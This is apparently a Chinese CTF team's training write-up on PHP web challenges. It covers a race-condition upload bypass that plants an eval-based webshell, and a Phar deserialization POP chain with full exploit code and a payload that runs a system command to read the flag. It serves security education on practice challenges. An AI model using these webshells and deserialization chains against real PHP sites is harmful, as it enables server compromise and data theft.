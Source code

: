 # CUCCTF训练2025 [03-12 ~ 03-18]
# 第一部分
## 本期主题关键词
WEB，SQL注入，文件上传，反序列化，RCE
## 本周题目

- [FSCTF 2023 加速加速](https://www.nssctf.cn/problem/2141)

- [SWPUCTF 2021 新生赛 babyunser](https://www.nssctf.cn/problem/466)

- [HNCTF 2022 WEEK2 easy_sql](https://www.nssctf.cn/problem/2952)

- [网鼎杯 2018 Fakebook](https://www.nssctf.cn/problem/20)
### 加速加速
本题考点为条件竞争，至于除了标签外如何判断此网站拥有该漏洞，暂时没弄懂
***
条件竞争:是指程序的多个并发操作在访问共享资源时，由于执行顺序的不确定性，导致结果不可预测或被攻击者利用的现象。在 Web 安全中，攻击者可以利用条件竞争在服务器执行某些操作（如文件检测和删除）之前，抢先执行另一项操作（如文件读取），从而绕过安全机制
***
由于他会检测，如果检测到上传了php就会将文件删除，所以我们希望上传一个php文件，让它在被检测到并删除之前被访问并执行，生成一个新的php文件作为webshell，代码如下
```php
<?php
file_put_contents('1.php', '<?php eval($_POST["r00ts"]);?>');
?>
```
首先发一个jpg文件看看他把上传上去的图存在哪里了（这里直接把一会要用的文件后缀改了）<br>
![alt text](image.png)<br>
可以看到存在/upload里，接下来我们要重复快速发送两个包，上传php包如下<br>
![alt text](image-1.png)<br>
访问上传包如下，发现在10000次访问中有3次成功了，也就是说此时已经成功在upload中生成了1.php，即webshell<br>
![alt text](image-2.png)<br>
成功后用蚁剑连接webshell<br>
![alt text](image-3.png)<br>
![alt text](image-4.png)<br>
回到根目录找到flag<br>
![alt text](image-5.png)<br>
FSCTF{p@ti0ns_15_key_1n_1ife}<br>
### babyunser
***
Phar 文件是一种 PHP 归档文件，类似于 .zip 或 .tar，可以存储 PHP 对象，而这些对象在某些情况下会被 unserialize() 自动解析，导致反序列化漏洞，如果目标代码使用 file_exists() 或 fopen() 访问 phar文件，PHP 会自动反序列化 metadata，导致入口类的 __destruct() 方法执行
***
在查看页看看当前页面的代码（下面把html部分删掉了，只看php部分）
![alt text](image-6.png)
```php
<?php
include('class.php');
$a=new aa();

error_reporting(0);
$filename=$_POST['file'];
if(!isset($filename)){
    die();
}
$file=new zz($filename);
$contents=$file->getFile();
?>
<br>
<textarea class="file_content" type="text" value=<?php echo "<br>".$contents;?>
```
看到这里用到了class.php，用同样的方法查看
```php
<?php
class aa{
    public $name;

    public function __construct(){
        $this->name='aa';
    }

    public function __destruct(){
        $this->name=strtolower($this->name);
    }
}
// aa类，析构函数调用strlower处理name

class ff{
    private $content;
    public $func;//作为方法名字的字符串

    public function __construct(){
        $this->content="\<?php @eval(\$_POST[1]);?>";
    }

    public function __get($key){
        $this->$key->{$this->func}($_POST['cmd']);
    }
}
// ff类，构造函数将一句话木马赋值给content
// 当访问不存在的变量key时调用get函数，将key的值赋值为func(a)，其中a为从cmd输入的值

class zz{
    public $filename;
    public $content='surprise';

    public function __construct($filename){
        $this->filename=$filename;
    }

    public function filter(){
        if(preg_match('/^\/|php:|data|zip|\.\.\//i',$this->filename)){
            die('这不合理');
        }
    }

    public function write($var){
        $filename=$this->filename;
        $lt=$this->filename->$var;
        //此功能废弃，不想写了
    }

    public function getFile(){
        $this->filter();
        $contents=file_get_contents($this->filename);
        if(!empty($contents)){
            return $contents;
        }else{
            die("404 not found");
        }
    }
    //读取 $this->filename 文件的内容，如果 filename 是 phar://，就可能触发 Phar 反序列化漏洞。

    public function __toString(){
        $this->{$_POST['method']}($_POST['var']);
        return $this->content;
    }
    //通过 $_POST['method']($_POST['var']) 执行任意方法
}

class xx{
    public $name;
    public $arg;

    public function __construct(){
        $this->name='eval';
        $this->arg='phpinfo();';
    }

    public function __call($name,$arg){
        $name($arg[0]);
    }
    //可以调用任意 PHP 内置函数
}
```
思路梳理：
- 1.我们希望通过ff类的get方法来cat flag，即需要从某处调用private的content以触发get
    - cmd = cat /flag (POST赋值)
    - func = "system" (构造函数中赋值)
- 2.如果zz类的filename是ff类，可以通过write(content)来触发ff的get，即需要从某处调用write，zz的toString可以达成这点
    - var = content (POST赋值)
    - method = write (POST赋值)
- 3.aa的destruct中有strtolower,如果aa的name是zz类则可以触发zz的toString
- 另外需要注意：我们最后希望在get中执行content->system('cat /flag')，但我们的content并没有赋值，这时候发现还有xx中的call可以用，如果我们的content是xx类，在执行上述语句时会因为xx没有名为system的函数而调用call，call方法接收两个参数，一个是$name,一个是$arg
这两个参数分别对应我们调用的不存在的方法的方法名和参数,即system('cat /flag')

梳理完接下来可以生成phar文件了
```php
<?php
class aa{
    public $name;
}
class ff{
    private $content;
    public $func = "system";
    public function __construct(){
        $this->content = new xx();
    }

}
class zz{
    public $filename;
    public $content;
}
class xx{
    public $name;
    public $arg;
}
$a = new aa();
$a -> name = new zz();
$a -> name ->filename = new ff();


$phar = new Phar('exp.phar');
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>"); //定义 Phar 归档的入口代码,保证归档数据不会被 PHP 解析
$phar->setMetadata($a);  // 把对象 $a 存储到 metadata
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
?>
```
注意需要将php.ini中的
```
; phar.readonly = On
```
修改为
```
phar.readonly = Off
```
上传生成好的phar文件
![alt text](image-7.png)
按照梳理进行赋值，payload如下
```
file=phar://upload/dad70a1fcf311e5b0df09b191ec25c4d.txt&method=write&var=content&cmd=cat /flag
```
![alt text](image-9.png)